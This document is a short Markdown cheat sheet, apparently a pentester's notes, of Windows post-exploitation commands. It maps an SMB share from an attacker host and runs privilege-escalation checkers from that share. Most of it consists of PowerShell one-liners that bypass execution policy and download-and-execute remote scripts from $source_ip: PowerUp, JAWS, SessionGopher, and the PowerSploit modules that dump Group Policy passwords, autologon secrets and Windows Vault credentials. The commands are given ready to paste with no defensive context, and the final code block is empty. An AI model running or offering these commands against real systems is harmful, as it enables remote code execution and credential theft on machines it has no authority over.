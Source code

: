 
# Windows

## General Commands
```bash
net use z: \\$source_ip\$smb_share  
```
```bash
//$source_ip/$smb_share/tools_windows/bin/whoami.exe
```

## Enumeration Scripts
```bash
//$source_ip/$smb_share/tools_windows/windows-privesc-check2.exe --audit -a -o wpc-report
```
```bash
//$source_ip/$smb_share/tools_windows/windows-privesc-check2.exe --dump -a > wpc-dump
```

```bash
powershell.exe -noprofile -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://$source_ip/tools_windows/PowerSploit/Privesc/PowerUp.ps1'); Invoke-AllChecks"
```
```bash
powershell.exe -noprofile -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://$source_ip/tools_windows/PowerSploit/Exfiltration/Get-GPPAutologon.ps1'); Get-GPPAutologon"
```
```bash
powershell.exe -noprofile -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://$source_ip/tools_windows/PowerSploit/Exfiltration/Get-GPPPassword.ps1'); Get-GPPPassword"
```
```bash
powershell.exe -noprofile -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://$source_ip/tools_windows/PowerSploit/Exfiltration/Get-VaultCredential.ps1'); Get-VaultCredential"
```

```bash
powershell.exe -noprofile -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://$source_ip/tools_windows/JAWS/jaws-enum.ps1');"
```
```bash
powershell.exe -noprofile -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://$source_ip/tools_windows/Privesc/privesc.ps1');"
```
```bash
powershell.exe -noprofile -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://$source_ip/tools_windows/SessionGopher/SessionGopher.ps1'); Invoke-SessionGopher -Thorough"
```

Check if CMD or Powershell
```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

Copy and paste enum
```bash
```